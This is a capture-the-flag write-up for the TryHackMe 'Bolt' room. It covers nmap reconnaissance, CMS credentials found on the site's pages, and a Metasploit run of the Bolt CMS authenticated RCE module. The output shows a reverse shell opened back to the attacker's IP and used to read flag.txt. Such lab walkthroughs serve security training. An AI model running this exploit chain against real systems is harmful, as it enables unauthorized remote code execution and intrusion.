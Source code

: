 # Bolt

<a href="https://tryhackme.com/room/bolt">Click here to see the room!</a>

First of all, connect to the VPN and deploy the machine.

The machine IP is ```10.10.189.109``` for me. (It will be different for you)

Run Nmap to search open ports
```
#nmap -sV -sC -A 10.10.189.109
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 03:08 BST
Nmap scan report for 10.10.189.109
Host is up (0.071s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 155466
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: d172de
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Bolt | A hero is unleashed

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   72.13 ms 10.8.0.1
2   72.59 ms 10.10.189.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.21 seconds
```
3 ports are open.
#1 	What port number has a web server with a CMS running? The answer is there!

Let's check ```10.10.189.109:8000```. Yes it's working! Check the pages. You will find the answer of 
#2 What is the username we can find in the CMS? and 
#3 What is the password we can find for the username?

#4 	What version of the CMS is installed on the server? (Ex: Name 1.1.1)
Just google it how to reach the login page. On the https://docs.bolt.cm/3.7/manual/login you will find ```http://<IP:PORT>/bolt/login```. Enter the username and password that you find on the web page. Now you are on Dashboard page. At the left-bottom corner you can see the answer.

#5 	There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?
Go to https://www.exploit-db.com/ and search for "Bolt cms". You will find the EDB-ID of Authenticated Remote Code Execution vulnerability.

#6 	Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)
Run metasploit! I recommend you to update Metasploit first.

```
#msfconsole

msf6 > search bolt cms
#   Name                                              Disclosure Date  Rank       Check  Description
28  exploit/unix/webapp/bolt_authenticated_rce        2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
```
Can you see the full path for this exploit?

#7 	Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit
You know the username and password. LHOST is your IP that you can find it on https://tryhackme.com/access or ```ifconfig``` on terminal. Keep LPORT 4444. RHOST is the target machine IP. You can see below how to set those parameters. PS: I hide username and password so don't set username as ```b...``` :D
Make sure everything is correct before running ```exploit```/```run```
```
msf6 > use 28
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost 10.8.33.214
lhost => 10.8.33.214
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.189.109
rhosts => 10.10.189.109
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username b...
username => b...
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password b...........
password => b...........
```
#8 	Look for flag.txt inside the machine.

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.33.214:1234 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "biczvo".
[*] Found 2 potential token(s) for creating .php files.
[+] Used token 886cf3be6cb404b04c371dd3b6 to create jjgvqcgyaxm.php.
[*] Attempting to execute the payload via "/files/jjgvqcgyaxm.php?biczvo=`payload`"
[*] Command shell session 1 opened (10.8.33.214:1234 -> 10.10.189.109:60300) at 2020-08-23 03:41:42 +0100
[!] No response, may have executed a blocking payload!
[+] Deleted file jjgvqcgyaxm.php.
[+] Reverted user profile back to original state.

$ls
index.html
$pwd
/home/bolt/public/files
$cd ..
$ls
bolt-public
extensions
files
index.php
theme
thumbs
$cd ..
$ls
app
composer.json
composer.lock
cron
extensions
index.php
public
README.md
reboot.sh
src
vendor
$cd ..
$ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{w.._......_....._...._....7?}
```

Easy machine!

Many thanks to <a href="https://tryhackme.com/p/0x9747">0x9747</a> room creator and <a href="https://tryhackme.com">TryHackMe.com</a> for this free room.

If you think something is wrong, send a mail to hsnckkgl@gmail.com

Best wishes to all the CTF Players,

hsnckkgl
